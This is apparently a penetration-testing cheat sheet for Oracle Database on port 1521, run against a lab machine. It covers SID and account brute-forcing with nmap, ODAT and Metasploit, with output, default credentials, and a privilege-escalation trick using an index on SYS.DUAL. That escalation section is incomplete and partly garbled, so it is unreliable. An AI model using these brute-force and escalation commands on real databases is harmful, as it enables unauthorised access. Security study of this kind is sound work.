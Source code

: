 ```yaml
---
description: >-
  Oracle Database is a multi-model database management system produced and
  marketed by Oracle Corporation.
---
```


# 1521 - Oracle DB

Port: 1521

## Enumeration

### oscanner

Install oscanner: 

`apt-get install oscanner`   

Run oscanner: 

`oscanner -s 192.168.1.200 -P 1521`  

### tnscmd10g

Fingerprint Oracle TNS Version 

Fingerprint oracle tns: 

`tnscmd10g version -h TARGET` 

### Nmap

**Run nmap scripts against Oracle TNS:** 

`nmap -p 1521 -A TARGET` 

Find tns version:

`nmap --script=oracle-tns-version`  

**Brute force oracle user accounts** 

Identify default Oracle accounts: 

 `nmap --script=oracle-sid-brute`  

 `nmap --script=oracle-brute`  

### ODAT

ODAT \(Oracle Database Attacking Tool\) is an open source penetration testing tool that tests the security of Oracle Databases remotely. 

Usage examples of ODAT: 

* You have an Oracle database listening remotely and want to find valid SIDs and credentials in order to connect to the database 
* You have a valid Oracle account on a database and want to escalate your privileges to become DBA or SYSDBA 
* You have a Oracle account and you want to execute system commands \(e.g. reverse shell\) in order to move forward on the operating system hosting the database 

Tested on Oracle Database 10g, 11g, 12c and 18c. 

**Install**: 

`apt install odat` 

**Examples**: 

Identify SIDs 

```text
root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82 
 
[1] (10.10.10.82:1521): Searching valid SIDs 
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server 
[+] 'XE' is a valid SID. Continue... 
[+] 'XEXDB' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:49 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521) 
100% |#####################################################################################################################################################| Time: 00:00:09 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521) 
[+] 'XE' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:20 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB 
```

### Metasploit

#### sid bruteforce:

```text
msf auxiliary(admin/oracle/sid_brute) > run 

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt... 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc' 
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID '' 
[*] 10.10.10.82:1521 - Done with brute force... 
[*] Auxiliary module execution completed 
```

#### tns version:

```text
auxiliary/scanner/oracle/tnslsnr_version
```

#### sid enum:

```text
auxiliary/scanner/oracle/sid_enum
```

## Default accounts

| Username  | Password  |
| :--- | :--- |
| SYSTEM  | MANAGER  |
| SYS  | CHANGE\_ON\_INSTALL  |
| DBSNMP  | DBSNMP  |
| SCOTT  | TIGER  |

## Connecting to Oracle DB

To interact with Oracle from our Kali box, there are three tools that can come in handy. sqlplus is required for odat to work properly: 

Sqlplus will be installed with odat. So just install odat \(apt install odat\) 

```text
root@kali:~/hackthebox/silo# sqlplus SCOTT/tiger@10.10.10.82:1521/XE 
SQL*Plus: Release 12.2.0.1.0 Production on Thu Apr 26 08:54:27 2018 

Copyright (c) 1982, 2016, Oracle.  All rights reserved. 

Connected to: 
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production 
 
SQL> 
```

## Privilege escalation

 **Oracle priv esc and obtain DBA access:** 

**Run netcat**: netcat -nvlp 443 code 

`SQL> create index exploit_1337 on SYS.DUAL(SCOTT.GETDBA('BAR'));` 

**Run the exploit with a select query:** 

`SQL> Select * from session_privs;`  

**Remove the exploit using:** 

`drop index exploit_1337;` 

